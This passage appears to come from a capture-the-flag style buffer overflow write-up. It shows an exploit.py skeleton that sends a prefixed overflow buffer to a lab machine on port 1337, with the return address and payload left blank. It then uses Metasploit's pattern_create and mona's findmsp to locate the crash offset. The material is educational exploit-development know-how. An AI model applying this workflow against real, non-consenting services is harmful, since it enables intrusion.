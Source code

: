 ```python
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```

Python3 Exploit
{: .highlight }  
We create a second python file, exploit.py, containing the following:

```python
#!/usr/bin/env python3
import socket

ip = "10.10.180.173"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```

We then generate a cyclic pattern via MSF's pattern_create module, and make it *400 bytes longer* than the string that crashed the server.

We ran the fuzzer against the server and received the following message when the application crashed in Immunity:
```
Fuzzing crashed at 2000 bytes
```

So I assume our msf command needs to be -l 2400:
```
msf-pattern_create -l 2400 > pattern.txt
```

We copy the entire pattern, and then modify  exploit.py's 'payload' variable to contain this long string of characters (in quotes!).

We run exploit.py and watch the program crash. In Immunity, we input the following into the command line (noting that 2400 is the value we came up with previously and had input into the msf command)
```
!mona findmsp -distance 2400
```
